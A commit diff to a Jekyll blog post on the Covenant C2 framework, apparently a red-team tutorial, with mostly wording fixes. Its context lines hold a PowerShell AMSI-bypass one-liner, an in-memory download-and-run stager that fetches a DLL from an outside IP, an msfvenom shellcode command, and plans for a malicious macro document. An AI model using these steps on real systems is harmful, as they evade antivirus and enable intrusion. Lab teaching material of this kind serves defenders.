

Before and after one commit to Fil88/Fil88.github.io, a Jekyll site: the page built from _posts/2021-07-01-Entering-the-Covenant-C2C.md, in a window 1280 px wide and 1400 px high, scrolled down 7514 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update 2021-07-01-Entering-the-Covenant-C2C.md

````diff
--- a/_posts/2021-07-01-Entering-the-Covenant-C2C.md
+++ b/_posts/2021-07-01-Entering-the-Covenant-C2C.md
@@ -299,7 +299,7 @@ PS > [MonkStager.MonkStager]::Execute()
   <img src="/assets/posts/2021-07-01-Entering-the-Covenant-C2C/cov5.JPG">
 </p>
 
-And note your new powershell __Grunt__ checking in on __Covenant__.
+And note your new `powershell` __Grunt__ checking in on __Covenant__.
 
 
 
@@ -317,7 +317,7 @@ On the other hand we can keep our stager entirely in memory by downloading the D
 # Patch Amsi
 $a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)
 
-PS > $dll = (new-object net.webclient).DownloadData("http://192.168.152.100:1234/monk-Avbypass.dll)
+PS > $dll = (new-object net.webclient).DownloadData("http://192.168.152.100:1234/covenant-DLL-noAmsi)
 PS > [System.Reflection.Assembly]::Load($dll)
 PS > [MonkStager.MonkStager]::Execute()
 ```
@@ -330,8 +330,11 @@ However we are not going to dig further around this topic, or at least not for n
 We can try to simulate a campaign conducted by foreign APT adversaries. We will try to leverage the amazing [GadgetToJScript:](https://github.com/med0x2e/GadgetToJScript) project to weaponize our custom .NET assembly.
 Our DLL is not perfect, but it works. However, it's quite hard to deliver one to a target user since no default actions are associated with that file type (double clicking it doesn't do much!).
 Not to mention that most corporate web proxies and mail filters block the DLL file type regardless of being malicious or benign!
-What is needed is an additional component that will write our DLL on disk and then load it to trigger the execution.
-HTA format can be used to facilitate this scenario, but the same concept could be applied with other languages such as VBS and VBA, commonly used for initial enterprise access. This is still the first attack vector used by APT to attack enterprise considering the wide deployment of the Windows office suite.
+
+
+Ideallly, what is needed is an additional component that for example will write our DLL on disk and then load it to trigger the execution.
+HTA format can be used to facilitate this scenario, but the same concept could be applied with other languages such as VBS and VBA, commonly used for initial enterprise access.
+Besides phishing campaign this is still the first attack vector used by APT to attack enterprise network considering the wide deployment of the `Windows Office Suite`.
 For this reason we will implement a malicious office with macro enabled. For this simulation we are going to use a simple MessageBox as our payload.
 
 For our basic scenario we will implement the following:
@@ -346,13 +349,13 @@ For our basic scenario we will implement the following:
 
 
 
-Without esitation let's dig into the scenario and let's start by generating a simple non encrypted __msfvenom__ __shellcode__:
+Without hesitation let's dig into the scenario and let's start by generating a simple non encrypted __msfvenom__ __shellcode__:
 
 ```powershell
 msfvenom -a x64 -p windows/x64/messagebox Text="Hello from shellcode"  -f csharp
 ```
 
-Moving forward we now need  to store our shellcode into a payload that when executed it will carry out shellcode injection into specific process.
+Moving forward, we now need to store our shellcode into a payload that when executed will carry out process injection using one of the many and different techniques.
 
 I decided to use the [QueueUserAPC injection using D/invoke](https://gist.github.com/jfmaes/944991c40fb34625cf72fd33df1682c0) for the process injection part.
 
````
Also changed, not shown: other parts of _posts/2021-07-01-Entering-the-Covenant-C2C.md (+5 -7 lines).
